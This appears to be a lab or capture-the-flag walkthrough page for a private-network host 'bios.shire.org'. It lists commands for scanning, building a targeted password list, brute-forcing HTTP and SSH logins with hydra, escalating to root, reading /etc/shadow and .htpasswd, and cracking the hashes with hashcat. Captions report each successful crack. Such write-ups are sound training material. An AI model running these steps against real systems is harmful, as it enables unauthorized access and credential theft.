 # Target 1: bios.shire.org

## Target 1.1: 10.0.5.21

<pre><code>sudo nmap 10.0.5.0/24 -p 53 --open
nslookup 10.0.5.21 10.0.5.22
# host is bios.shire.org
cewl http://10.0.5.21/bios/pippin -m 4 | egrep -v 'and|or|the' | egrep '[A-Z]' >> pippinbio.txt
nano pippinbio.txt
rsmangler -m 9 -x 12 -rp -f pippinbio.txt -o pippinmangled.txt
<strong>wc -l pippinmangled.txt
</strong><strong>nmap -sV 10.0.5.21
</strong>dirb http://10.0.5.21 -wfr
hydra -l pippin -P pippinmangled.txt -s 80 -f 10.0.5.21 http-get /admin/
hydra -l peregrin.took -P pippinmangled.txt 10.0.5.21 -t 4 ssh
ssh peregrin.took@10.0.5.21
<strong>[peregrin.took@bios]$ sudo -i
</strong><strong>[root@bios]$ cat /etc/shadow
</strong><strong># copy hashes into text file on Kali host
</strong><strong>cat /etc/httpd/conf.d/admin.conf
</strong><strong>cat /etc/httpd/.htpasswd
</strong><strong># copy hashes into another text file on Kali host
</strong><strong>hashcat -m1600 bioshttphashes.txt -w4 -a0 pippinmangled.txt
</strong><strong>hashcat -m1800 bios.txt -w4 -a0 /usr/share/wordlists/rockyou.txt
</strong></code></pre>

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>nmap results for 10.0.5.21</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>dirb results for http://10.0.5.21</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>successful crack of pippin HTTP</p></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot 2024-09-03 at 11.28.55 AM.png" alt=""><figcaption><p>successful crack of pippin SSH</p></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot 2024-09-03 at 11.32.01 AM.png" alt=""><figcaption><p>successful access and elevation on 10.0.5.21</p></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot 2024-09-03 at 11.36.14 AM.png" alt=""><figcaption><p>where to find http hashes and the http hashes for 10.0.5.21</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption><p>successful crack of 2 HTTP passwords</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>successful crack of 1 HTTP password</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>successful crack of 1 HTTP password</p></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot 2024-09-05 at 9.09.19 AM.png" alt=""><figcaption><p>successful crack of 1 bios password</p></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot 2024-09-05 at 11.04.13 AM.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot 2024-09-05 at 8.54.07 PM.png" alt=""><figcaption></figcaption></figure>
